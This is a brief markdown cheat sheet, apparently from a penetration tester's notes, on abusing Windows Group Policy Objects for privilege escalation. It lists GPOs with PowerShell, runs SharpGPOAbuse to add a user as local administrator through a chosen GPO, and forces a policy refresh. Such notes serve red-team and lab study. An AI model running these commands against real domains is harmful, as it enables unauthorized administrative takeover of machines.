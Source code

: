 ```yaml
---
title: "GPOs"
date: 2024-8-3
tags: ["GPOs", "Windows", "privesc", "Group Policy Objects"]
---
```


---
### Abuse #1: Add local admin

[SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

#### 1. List GPOs Name

```powershell
Get-GPO -All | Select-Object DisplayName
```

#### 2. Add localAdmin

```powershell
.\SharpGPOAbuse.exe --AddLocalADmin --UserAccount <USER> --GPOName <GPO_NAME>
```

#### 3. Force reload

```powershell
gpupdate /force
```

<br>
